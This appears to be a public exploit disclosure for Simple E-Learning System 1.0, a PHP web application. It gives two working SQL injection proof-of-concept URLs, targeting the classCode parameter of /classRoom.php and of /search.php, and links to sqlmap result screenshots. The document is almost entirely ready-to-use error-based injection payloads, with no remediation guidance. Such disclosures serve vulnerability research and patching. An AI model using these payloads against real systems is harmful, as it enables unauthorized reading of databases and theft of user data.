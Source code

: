 ### Exploit Title: Simple E-Learning System - Multiple SQL injections
### Date: 2022-07/19
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php-simple-e-learning-system-source-code
### Version: 1.0
### Tested on: windows10 + phpstudy


# 1./classRoom.php
/classRoom.php SQL injection exists for parameter classCode

### Sample request POC #1

```
http://[ip:port]/classRoom.php?classCode=1'||(SELECT 0x6770715a WHERE 8795=8795 AND (SELECT 8342 FROM(SELECT COUNT(*),CONCAT(0x7171786b71,(SELECT (ELT(8342=8342,1))),0x717a7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16582996517475.png "Simple E-Learning System")


# 2./search.php
/search.php SQL injection exists for parameter classCode

### Sample request POC #2

```
http://[ip:port]/search.php?classCode=1'||(SELECT 0x74666264 WHERE 5610=5610 AND (SELECT 7504 FROM(SELECT COUNT(*),CONCAT(0x7171627a71,(SELECT (ELT(7504=7504,1))),0x71717a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583004584228.png "Simple E-Learning System")


